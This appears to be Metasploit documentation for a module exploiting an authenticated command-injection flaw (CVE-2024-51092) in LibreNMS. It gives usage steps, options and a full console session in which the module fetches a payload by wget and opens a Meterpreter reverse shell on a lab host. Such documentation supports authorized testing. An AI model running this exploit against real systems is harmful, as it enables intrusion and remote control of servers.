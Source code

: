 ## Vulnerable Application

An authenticated attacker can create dangerous directory names on the system and
alter sensitive configuration parameters through the web portal.
Those two defects combined then allows to inject arbitrary OS commands inside shell_exec() calls,
thus achieving arbitrary code execution.

The vulnerability affects:

    * LibreNMS <= 24.9.1

This module was successfully tested on:

    * LibreNMS 24.9.1 installed on Ubuntu 22.04


### Installation

1. Follow the [official instructions](https://docs.librenms.org/Installation/Install-LibreNMS/).
After git clone, change version: `git checkout tags/24.9.1`.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092`
4. Do: `run lhost=<lhost> rhost=<rhost> username=<username> password=<password>`
5. (Optional) Do: `php artisan device:poll all` on the victim machine or wait up to 5 minutes (default cron setting)
6. You should get a meterpreter


## Options
### USERNAME (required)
User name for LibreNMS.

### PASSWORD (required)
Password for LibreNMS.

### PATH (required)
LibreNMS installed location. Default is `/opt/librenms`.

### WAIT (required)
Wait time (seconds) for cron to poll the device. Default is `30`.

### RETRY (required)
Maximum wait time: WAIT x RETRY (seconds). Default is `11`.


## Scenarios
```
msf6 > use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > options

Module options (exploit/linux/http/librenms_authenticated_rce_cve_2024_51092):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password for LibreNMS
   PATH      /opt/librenms    yes       LibreNMS installed location
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRY     11               yes       Maximum wait time: WAIT x RETRY (seconds)
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       User name for LibreNMS
   VHOST                      no        HTTP server virtual host
   WAIT      30               yes       Wait time (seconds) for cron to poll the device


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      bndYRWQBrjK      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > run lhost=192.168.56.1 rhost=192.168.56.17 username=librenms password=librenms
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. LibreNMS detected.
[*] Successfully logged into LibreNMS. Storing credentials...
[*] [1/11] Waiting 30 seconds for cron to poll the device...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:41764) at 2025-01-12 12:20:32 +0900
[*] Reset snmpget to default.
[*] Deleted device: 120
[*] Deleted device: 121
[*] Deleted device: 122
[*] Deleted device: 123

meterpreter > getuid
Server username: librenms
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-50-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
